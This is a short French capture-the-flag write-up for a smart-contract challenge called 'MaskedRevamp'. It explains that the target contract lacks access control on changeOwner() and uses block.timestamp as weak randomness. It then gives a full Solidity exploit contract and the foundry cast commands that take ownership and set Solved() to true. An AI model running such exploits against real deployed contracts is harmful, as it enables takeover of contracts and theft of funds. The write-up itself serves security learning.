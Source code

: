 # MaskedRevamp - K.L.M

Récup du bytecode du contrat pour le reverse :
`cast code $TAR -r $RPC`

Contrat vulnérable, pas de contrôle d'accès, aucune protection. On peut changer le propriétaire grâce au "changeOwner()"

Deuxième étape, utilisation de mauvais facteur d'aléatoire. On peut passer Solved() à true en utilisant block.timestamp

Exploit contrat :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Solve {
    address public target;

    function setTarget(address _target) public {
        target = _target;
    }

    function part1() public {
        (bool success, ) = target.call(abi.encodeWithSignature("changeOwner()"));
        require(success, "changeOwner call failed");
    }

    function callFunction(bytes4 selector) public returns (bytes memory) {
        (bool success, bytes memory returnData) = target.call(abi.encodePacked(selector, block.timestamp));
        require(success, "Call failed");
        return returnData;
    }
}
```

Ensuite avec foundry :

```bash
cast send $ATK "setTarget(address)" $TAR -r $RPC --private-key $PK
cast send $ATK "part1()" -r $RPC --private-key $PK
cast send $ATK "callFunction(bytes4)" 0xab38a9f4 -r $RPC --private-key $PK
cast call $TAR "Solved()(bool)" -r $RPC
true
```

Win ! 

